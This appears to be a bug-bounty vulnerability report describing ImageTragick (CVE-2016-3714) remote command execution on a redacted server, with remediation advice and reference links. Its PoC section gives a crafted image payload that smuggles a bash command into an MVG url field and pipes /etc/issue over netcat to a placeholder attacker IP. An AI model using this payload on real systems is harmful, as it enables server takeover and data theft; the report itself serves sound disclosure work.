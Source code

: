 ImageTragick leads to RCE on xxx.xxxxxxxxxxxx.xxx



Hi,


## Description

ImageMagick is a popular software used to convert, edit and manipulate images. It has libraries for all common programming languages, including PHP, Python, Ruby and many others. 

However, the olders version of ImageMagick don’t properly filter the file names that get passed to the internal delegates that handle external protocols. This allows an attacker to execute his own commands remotely by uploading an image. This leads to a full RCE vulnerability in your image uploader.


## PoC

Use the following payload as an image:
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://<attacker ip>"||/bin/bash -c "cat /etc/issue | nc -nv <attacker ip> 1111)'
pop graphic-context
```

{}


## Risk

- take control of the concerned server
- malicious code injection
- defacement
- perform pivoting to access other server in the same network
- ...


## Remediation

Check the uploaded file if it's really an image before passing the file to ImageMagick (e.g. the convert utility).
Update the system to the last version of ImageMagick (or at least a patched version).


## See also

https://imagetragick.com/
https://blog.sucuri.net/2016/05/imagemagick-remote-command-execution-vulnerability.html
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3714




Best regards,

Gwen

